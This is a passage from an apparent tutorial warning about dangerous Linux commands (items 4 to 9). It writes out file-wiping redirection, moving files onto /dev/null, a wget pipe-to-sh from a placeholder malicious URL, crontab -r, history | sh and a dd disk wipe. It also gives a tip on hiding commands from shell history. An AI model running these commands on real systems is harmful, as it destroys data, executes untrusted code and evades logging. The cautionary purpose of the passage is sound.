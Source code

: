 
4. > file Command

The > file command is short for cat /dev/null > file.

Redirecting a command to a file can be very useful, but making a mistake in the command syntax or running the command carelessly can wipe out a critical system file.

The > file command uses the bash redirection feature to flush a file's contents, wiping it clean.

For example, run:

$ > examplefile.conf

The output creates an empty configuration file. Additionally, prepending a whitespace before the command prevents it from appearing in the log in Bash shell. This means that someone can flush your files, and there will be no trace left if they precede the command with a whitespace.


5. mv directory /dev/null

Another dangerous command you can find online is to move a directory or file to /dev/null. In Linux, /dev/null is a file known as "the black hole" because it destroys any data that you move to the file's location. However, since /dev/null is not a directory, but a character file, mv cannot overwrite it with another directory. On the other hand, you can move a file there, and the file overwrites the content of /dev/null.

For example:

$ sudo mv /home/busra/employees.txt /dev/null

After running this command, /dev/null is a regular file. The danger in making that change is that /dev/null is never supposed to output any data, and now it is a regular file. With that configuration being wrong, it can lead to random data being inserted into system files, leading to a broken system.


6. wget http://malicious_source_url -O-|sh

The wget command allows you to download files in the terminal. However, the command may instruct wget to download a script from a malicious source and execute it with sh. Always pay attention to the address of the package or file you are downloading, and make sure it is a trusted source, or else you risk infecting your system.

7. crontab -r

The crontab command helps automate everyday tasks. However, all the commands and instructions are kept in a single crontab file, which can be removed by specifying the -r flag. This can happen by mistake when you want to specify the -e flag and accidentally enter -r. Beware because there is no yes/no prompt before removing the file. Make sure to back up your crontab file as there aren't many recovery options once deleted.


8. history | sh

The history | sh command can be dangerous because it executes every command from the command log that you have already executed. The action can cause system instability and execute commands that you didn't want to execute again.


9. dd if=/dev/zero of=/dev/sda
